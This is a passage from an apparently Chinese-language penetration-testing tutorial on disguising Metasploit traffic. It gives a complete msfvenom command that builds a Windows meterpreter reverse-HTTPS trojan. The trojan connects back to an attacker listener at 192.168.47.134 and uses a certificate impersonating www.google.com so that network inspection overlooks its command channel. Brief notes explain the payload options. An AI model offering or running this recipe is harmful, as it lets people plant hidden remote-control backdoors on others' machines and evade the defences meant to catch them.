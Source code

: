 ![image-20221107110103415](流量加密/image-20221107110103415.png)



在当前目录查看生成的证书文件: `cat www.google.com.pem`

<img src="流量加密/image-20221107111248924.png" alt="image-20221107111248924" style="zoom:67%;" />	

​	

## MSF步骤

### 1.创建MSF木马

在证书文件所在目录输入如下命令生成msf木马

```
msfvenom -p windows/meterpreter/reverse_winhttps LHOST=192.168.47.134 LPORT=443 PayloadUUIDTracking=true HandlerSSLCert=www.google.com.pem StagerVerifySSLCert=true PayloadUUIDName=ParanoidStagedPSH -f exe -o msf.exe
```

> PayloadUUIDTracking：启用UUID跟踪，这使得每个生成的payload具有唯一的标识符，有助于在多个会话中对不同payload进行区分
> HandlerSSLCert：启用SSL证书验证
>
> PayloadUUIDName：设置payload的UUID名称

